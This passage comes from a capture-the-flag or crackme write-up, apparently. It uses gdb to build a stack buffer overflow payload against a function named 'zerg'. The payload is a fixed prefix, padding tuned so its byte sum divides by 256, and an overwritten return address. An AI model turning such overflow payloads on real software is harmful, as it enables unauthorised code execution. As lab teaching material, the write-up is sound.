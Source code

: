 

<pre class="prettyprint"><code class="language-... hljs r"><span class="hljs-keyword">...</span>
<span class="hljs-number">0x0804869e</span> &lt;+<span class="hljs-number">3</span>&gt;:     sub    $<span class="hljs-number">0xc</span>,%esp
<span class="hljs-keyword">...</span></code></pre>

<p><code>(gdb) print 0xc</code>  <br>
<code>$1 = 12</code> <br>
so our buffer is 12 char long, and the next 4 byte is the <code>ebp</code> pointer, and the next 4 byte is the return address we want to overwrite. <br>
 So the payload would be something like:  <br>
 <code>RUSHKEKEKE******\x99\x87\x04\x08</code> <br>
 where the <code>*</code> would make the whole payload divisible by 256. <br>
If you have some easy access to Ascii sum method, you can just do the math and find the exact <code>char</code> should be put in <code>*</code>, otherwise let’s just first try some arbitrary thing in  <code>gdb</code>: <br>
 <code>run $(python -c 'print ("RUSHKEKEKE" +"A" * 6+"\x99\x87\x04\x08")')</code> <br>
 and set a break point at where the comparison is made <br>
 <code>0x08048729 &lt;+142&gt;:   je     0x804873f &lt;zerg+164&gt;</code> <br>
 <code>(gdb) b *0x08048729</code> <br>
 <code>Breakpoint 2 at 0x8048729</code></p>



<pre class="prettyprint"><code class=" hljs bash">(gdb) cont
Continuing.
Breakpoint <span class="hljs-number">2</span>, <span class="hljs-number">0</span>x08048729 <span class="hljs-keyword">in</span> zerg ()</code></pre>

<p>Now let’s <code>disas</code> the stack and see what is being tested. <br>
<code>(gdb) disas</code></p>



<pre class="prettyprint"><code class=" hljs xml">   0x0804871f <span class="hljs-tag">&lt;<span class="hljs-title">+132</span>&gt;</span>:   mov    0x804a08c,%eax
   0x08048724 <span class="hljs-tag">&lt;<span class="hljs-title">+137</span>&gt;</span>:   movzbl %al,%eax
   0x08048727 <span class="hljs-tag">&lt;<span class="hljs-title">+140</span>&gt;</span>:   test   %eax,%eax
=&gt; 0x08048729 <span class="hljs-tag">&lt;<span class="hljs-title">+142</span>&gt;</span>:   je     0x804873f <span class="hljs-tag">&lt;<span class="hljs-title">zerg+164</span>&gt;</span></code></pre>

<p>and <code>$eax</code> now is set to the remainder of the sum of our payload divided by 256, so we can just print out <code>$eax</code> and tune up the payload. <br>
<code>(gdb) print $eax <br>
$2 = 164</code> <br>
So, we need add <code>(256-164=)92</code>to our payload. You can substitute any of the <code>A</code> , so I substituted 4 <code>A</code>s with <code>(A+23=)X</code>s, and run it again.  <br>
<code>run $(python -c 'print ("RUSHKEKEKE" +"A" *2+"X"*4+"\x99 <br>
\x87\x04\x08")')</code> <br>
and once we reach the 2nd break point, let’s check out <code>$eax</code>. <br>
<code>(gdb) print $eax <br>
$4 = 0</code> <br>
Yayyyy! It is now divisible by 256. So how about the return address, did we craft it correctly? <br>
Let’s set up another break point after the payload is copied into buffer (and overflow it).  </p>
